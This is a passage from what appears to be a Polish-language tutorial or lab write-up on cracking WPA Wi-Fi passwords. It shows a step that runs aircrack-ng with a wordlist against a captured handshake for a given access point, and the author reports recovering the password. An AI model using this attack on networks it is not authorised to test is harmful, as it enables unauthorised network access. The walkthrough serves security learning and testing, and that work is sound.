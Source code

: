     ![](../../../../.gitbook/assets/61eebf87-4772-4120-a9b3-62bc85b6d66e/f2ce6e52.png)


9. Atak słownikowy na przechwycone handshake wykonuje się przy pomocy polecenia:

    ```console
    root@debian:~# aircrack-ng -w slownik -b 5C:4C:A9:6B:EC:CD wpa-test-01.cap
    ```

    Co w moim przypadku zakończyło się sukcesem i uzyskaniem hasła.
